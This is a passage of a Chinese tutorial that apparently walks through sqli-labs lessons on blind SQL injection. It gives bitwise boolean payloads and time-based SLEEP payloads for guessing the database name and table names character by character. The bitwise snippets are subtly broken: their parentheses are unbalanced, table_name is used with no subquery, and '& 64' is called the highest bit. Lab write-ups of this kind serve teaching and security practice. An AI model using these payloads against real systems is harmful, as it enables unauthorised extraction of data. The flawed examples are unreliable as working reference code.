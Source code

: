 3. 位运算猜解

由于ASCII码本质上是一个**8位的二进制数**, 通过位运算可以将比较次数降到 8 次, 例如:

```sql
-- 猜解字符的第 1 位（最高位）是否为 1
id=1' AND (ASCII(SUBSTR(table_name,1,1)) & 64 = 64 --+

-- 猜解第 2 位是否为 1
id=1' AND (ASCII(SUBSTR(table_name,1,1)) & 32 = 32 --+
```


### lesson 9

时间盲注, 和上节一致, 不过改用时间延迟的方式猜测数据:

库名长度:

```url
?id=1' AND IF(LENGTH(database())=8, SLEEP(5), 0) --+
```

库名:

```url
?id=1' AND IF(ASCII(SUBSTR(database(),1,1))=115, SLEEP(5), 0) --+
```

后续和之前一致, 略过。

### lesson 10

双引号时间盲注, 和 lesson 9 一致。
